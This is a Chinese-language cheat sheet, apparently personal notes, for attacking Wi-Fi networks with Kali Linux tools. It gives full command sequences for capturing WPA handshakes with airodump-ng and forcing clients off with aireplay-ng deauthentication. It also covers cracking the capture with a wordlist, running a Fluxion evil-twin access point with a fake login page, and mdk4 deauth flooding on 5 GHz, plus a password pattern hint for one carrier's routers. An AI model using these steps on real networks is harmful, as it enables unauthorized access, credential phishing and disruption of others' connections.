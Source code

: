 
被动方式
```sh
lusb # 看有没有显示
ifconfig # 查看 wlan0 无线网卡
airmon-ng # 查看是否支持监听模式 显示wlan0 支持
airmon-ng check kill # 可能需要 ifconfig eth0 down 关闭其他 eth
airmon-ng start wlan0 # 开启监听

airodump-ng wlan0  # 扫描 wifi

# BSSID             PWR   Beacons	CH  # CH wifi频段11
# 60:32:B1:56:3F:B2 -32   24      11
# BSSID              STATTION
# 60:32:B1:56:3F:B2  CC:08:FB:DD:42:18

# 只用此方式抓包较慢
airodump-ng -c 11 --bssid 60:32:B1:56:3F:B2 -w /home/kali/tmp/handshake wlan0

# 第一行 CH  9 ][ Elapsed: 27 s ][ 2023-01-14 22:40 ][ WPA handshake: 34:36:54:D8:1F:A9 # 显示 handshake 为攻击成功, 这时Ctrl+C退出命令
```

ACK方式
```sh
# 方式1 上面的不要关闭 执行下面
## 针对所有客户端
aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 wlan0
## 针对指定客户端
aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c CC:08:FB:DD:42:18 wlan0
# 方式2 停止扫描， 执行攻击， 马上开启扫描。
# -0: 通知设备断开连接 10: 攻击次数 -a:目标bssid -c: 目标踢下线的设备
```

aircrack-ng -w ~/password.txt -b ~/handshake-01.cap


## 钓鱼 fluxion
https://github.com/FluxionNetwork/fluxion

```sh
./fluxion.sh -i

# 2.Handshake Snooper 检索WPA/WPA2加密散列。
# 3.扫描所有信道 （2.4G和5G),  绿色是正在有人在连接且扫描到的。白色不确定是否有连接。
# 选wifi，显示026直接输入26回车
# 2.重置攻击
# 2.aireplay-ng 解除认证方式
# hash 验证方法: cowpatty

# 返回
# 1 创建一个邪恶的双胞胎接入点
# 1 创建SSL证书
# 2 仿真（断开原网络的选项 需要测试，不确定效果）
# 认证页面 选3中文。 (如果确认对方路由器也可选别的)
```

## 8812AU网卡使用 5G攻击
```sh
#MDK4攻击：
iwconfig wlan0 mode monitor
airmon-ng check kill
airmon-ng start wlan0
airodump-ng -C 5180-5885 wlan0
# -C <freq>[,<freq>[,...]]

airodump-ng -w fhfgd -c 信道 --bssid MAC地址 wlan0

#再打开一个终端
mdk4 wlan0 d -B MAC地址
mdk4 wlan0 d -c 36,40,44,48,149,153,157,161,165
```

## Dictionary

天翼wifi:8位数字密码，例如 xx4yyykw


## Article
[零度WIFI安全测试](https://www.youtube.com/watch?v=_9q9Cl555wg)